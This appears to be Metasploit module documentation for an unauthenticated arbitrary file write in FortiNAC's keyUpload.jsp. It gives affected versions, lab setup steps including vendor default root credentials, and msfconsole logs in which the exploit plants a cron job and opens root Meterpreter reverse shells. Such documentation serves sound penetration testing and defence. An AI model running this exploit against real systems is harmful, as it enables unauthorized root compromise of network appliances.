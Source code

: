 ## Vulnerable Application

This module uploads a payload to the `/tmp` directory in addition to a cron job to `/etc/cron.d` which executes the payload
in the context of the `root` user.

The core vulnerability is an arbitrary file write issue in `/configWizard/keyUpload.jsp` which is accessible remotely and without
authentication. When you send this endpoint a ZIP file, it will extract an an attacker controlled file to directory
on the system of the attacker's choice.

This issue is exploitable on the following versions of FortiNAC:

- FortiNAC version 9.4 prior to 9.4.1
- FortiNAC version 9.2 prior to 9.2.6
- FortiNAC version 9.1 prior to 9.1.8
- FortiNAC 8.8 all versions
- FortiNAC 8.7 all versions
- FortiNAC 8.6 all versions
- FortiNAC 8.5 all versions
- FortiNAC 8.3 all versions

### Setup

Navigate to https://www.fortinet.com/demo-center/nac-demo to obtain a FortiNAC free product demo. Fill out the
necessary fields in order to download: first name, last name, job function, job level, company, email address, phone
number, state, zip/postal code. You'll receive a confirmation email; click the link in the email in order to access the
free product download.

Import the OVA file into your virtualization software of choice. Personally, I had success using VMWare Fusion. Note
that when using VMWare products, you will need to use a tool such as 7-Zip to unzip the `.ova` file, find the manifest
file contained within, which will end with `.mf`, and then rezip the file again. This is due to a bug noted at
https://github.com/home-assistant/operating-system/issues/2121

Personally I just navigated to the `.ova` file in Windows, right clicked, and chose `7-Zip`, then `Open Archive`,
and then deleted the `.mf` file that appeared before closing 7-Zip, which did the trick. Once this is done you
can then import the OVA file into VMWare fine.

Once the OVA file has been imported, but before starting the machine, if you are using VMWare, go into
`Edit->Virtual Network Editor` and look at the `Subnet Address` section for the `Host Only` adapter. You will
need this for later sections.

Next change the two interfaces of the imported machine from Bridged to Host Only. Then turn the machine on.
Once the machine turns on, log in with the following default credentials as outlined in the
[VMware Virtual Machine Installation Guide](https://fortinetweb.s3.amazonaws.com/docs.fortinet.com/v2/attachments/920a0000-200d-11e9-b6f6-f8bc1258b856/fortinac-vmware-install-85.pdf):

```
Username: root
Password: 162PemBnI
```

Once authenticated successfully, statically set the IP address of the machine using the subnet information you obtained
earlier. In our case the subnet was `192.168.123.0/24` so we just set the gateway to `192.168.123.1` and set the IP address
of the machine to `192.168.123.11/24` to set it to a static IP address that is available on this subnet. Be sure to update
these commands and any of the following commands to replace `192.168.123.11` and `192.168.123.1` with the appropriate
gateway and host IP addresses.

`configIP 192.168.123.11 255.255.255.0 192.168.123.1`

Navigate to the directory where the license file resides, and then start a Python SimpleHTTPServer web server to
host files from this directory using the following commands:

```
cd /bsc/campusMgr
python -m SimpleHTTPServer 9099
```

On your local machine download the license file from the Python server started above:

`wget -O licenseKey http://192.168.123.11:9099/.licenseKey`

On your local machine, open the browser of your choice and navigate to:

`https://192.168.123.11:8443/gui`

Authenticate with the default username and password:

```
Username: root
Password: YAMS
```

When installing the software, be sure to select `Manual Installation` when you get to the `Customer Requirement` section
of the setup. You may be asked to provide the license key/file prior to reaching this step. If this happens, provide
the `.licenseKey` file you downloaded from the Python HTTP server. Once you go past the `Customer Requirement` step,
you may one again be asked to provide the license file. Just provide the same `.licenseKey` file you downloaded.

You should then be at a URL that looks like `*ip*:*port*/gui/system/config-wizard` and see prompts for setting a few
options including the `Network Type`. At this point, set the hostname to `localhost`. The domain can be set to
`localhost.localdomain`. Finally set the `Network Type` to `None`. This is a not a hard requirement but it will save
you a lot of unnecessary setup.

Once this is done, you will be required to change the default passwords from the GUI and once complete,
restart the machine by clicking on the `Restart` button. One the machine reboots, you should have a
vulnerable instance of FortiNAC configured.

## Options

## Verification Steps

1. Start msfconsole
1. Do: `use exploit/multi/http/fortinac_keyupload_file_upload`
1. Set the `RHOST` and `LHOST` options
1. Run the module
1. Receive a Meterpreter session as the `root` user.

## Scenarios
### FortiNAC 9.4.0 CMD Target

```
msf6 > use exploit/linux/http/fortinac_keyupload_file_write
[*] No payload configured, defaulting to cmd/unix/python/meterpreter/reverse_tcp
msf6 exploit(linux/http/fortinac_keyupload_file_write) > set rhosts 192.168.123.11
rhosts => 192.168.123.11
msf6 exploit(linux/http/fortinac_keyupload_file_write) > set lhost 192.168.123.1
lhost => 192.168.123.1
msf6 exploit(linux/http/fortinac_keyupload_file_write) > set lport 4044
lport => 4044
msf6 exploit(linux/http/fortinac_keyupload_file_write) > run

[*] Started reverse TCP handler on 192.168.123.1:4044
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. Target indicated a successful upload occurred!
[*] Sending zipped cron job to /configWizard/keyUpload.jsp
[*] Waiting for cron job to run
[*] Sending stage (24772 bytes) to 192.168.123.11
[*] Meterpreter session 1 opened (192.168.123.1:4044 -> 192.168.123.11:59938) at 2023-03-09 17:01:02 -0500
[!] This exploit may require manual cleanup of '/etc/cron.d/ZlzEXbWF' on the target

meterpreter > getuid
Server username: root
meterpreter > sysinfo
Computer        : localhost.localhost.localdomain
OS              : Linux 3.10.0-1160.53.1.el7.x86_64 #1 SMP Fri Jan 14 13:59:45 UTC 2022
Architecture    : x64
System Language : en_US
Meterpreter     : python/linux
meterpreter >
```

### FortiNAC 9.4.0 Linux x64 Target
```
msf6 > use exploit/linux/http/fortinac_keyupload_file_write
[*] No payload configured, defaulting to cmd/unix/python/meterpreter/reverse_tcp
msf6 exploit(linux/http/fortinac_keyupload_file_write) > show targets

Exploit targets:
=================

    Id  Name
    --  ----
=>  0   CMD
    1   Linux x86
    2   Linux x64


msf6 exploit(linux/http/fortinac_keyupload_file_write) > set target 2
target => 2
msf6 exploit(linux/http/fortinac_keyupload_file_write) > set payload linux/x64/meterpreter/reverse_tcp
payload => linux/x64/meterpreter/reverse_tcp
msf6 exploit(linux/http/fortinac_keyupload_file_write) > set rhosts 192.168.123.11
rhosts => 192.168.123.11
msf6 exploit(linux/http/fortinac_keyupload_file_write) > set lhost 192.168.123.1
lhost => 192.168.123.1
msf6 exploit(linux/http/fortinac_keyupload_file_write) > set lport 9909
lport => 9909
msf6 exploit(linux/http/fortinac_keyupload_file_write) > run

[*] Started reverse TCP handler on 192.168.123.1:9909
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. Target indicated a successful upload occurred!
[*] Sending zipped payload to /configWizard/keyUpload.jsp
[*] Sending zipped cron job to /configWizard/keyUpload.jsp
[*] Waiting for cron job to run
[*] Sending stage (3045348 bytes) to 192.168.123.11
[*] Meterpreter session 3 opened (192.168.123.1:9909 -> 192.168.123.11:38266) at 2023-03-09 17:31:01 -0500
[!] This exploit may require manual cleanup of '/tmp/HcYciseH' on the target
[!] This exploit may require manual cleanup of '/etc/cron.d/DsxejZgV' on the target

meterpreter > getuid
Server username: root
meterpreter > sysinfo
Computer     : localhost.localhost.localdomain
OS           : CentOS 7.9.2009 (Linux 3.10.0-1160.53.1.el7.x86_64)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter >
```

